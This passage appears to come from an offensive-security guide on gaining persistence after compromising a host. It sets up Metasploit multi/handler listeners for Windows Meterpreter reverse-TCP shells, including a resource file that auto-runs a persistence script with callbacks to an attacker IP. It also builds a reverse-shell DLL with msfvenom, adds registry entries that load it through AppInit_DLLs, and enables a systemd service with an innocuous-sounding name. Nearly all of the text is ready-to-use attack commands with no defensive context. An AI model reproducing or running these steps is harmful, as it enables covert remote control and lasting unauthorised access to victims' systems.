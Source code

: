 ```bash
# Enable and start service
systemctl enable system-maintenance.service
systemctl start system-maintenance.service
```

---

## Multi-Handler Setup

### Basic Listener
```bash
msfconsole -q -x "
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
set ExitOnSession false
exploit -j
"
```

### Persistent Handler with Auto-Run Scripts
```bash
# Create resource file (listener.rc)
echo "use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
set ExitOnSession false
set AutoRunScript persistence -U -i 60 -p 443 -r 192.168.1.100
exploit -j" > listener.rc

# Run with resource file
msfconsole -r listener.rc
```

---

## Advanced Persistence Techniques

### Domain-Based Persistence
```bash
# Create DLL payload for AppInit_DLLs persistence
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 \
  -f dll \
  -o persistent.dll
```

**Registry modification:**
```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows]
"AppInit_DLLs"="C:\\Path\\To\\persistent.dll"
"LoadAppInit_DLLs"=dword:00000001
```
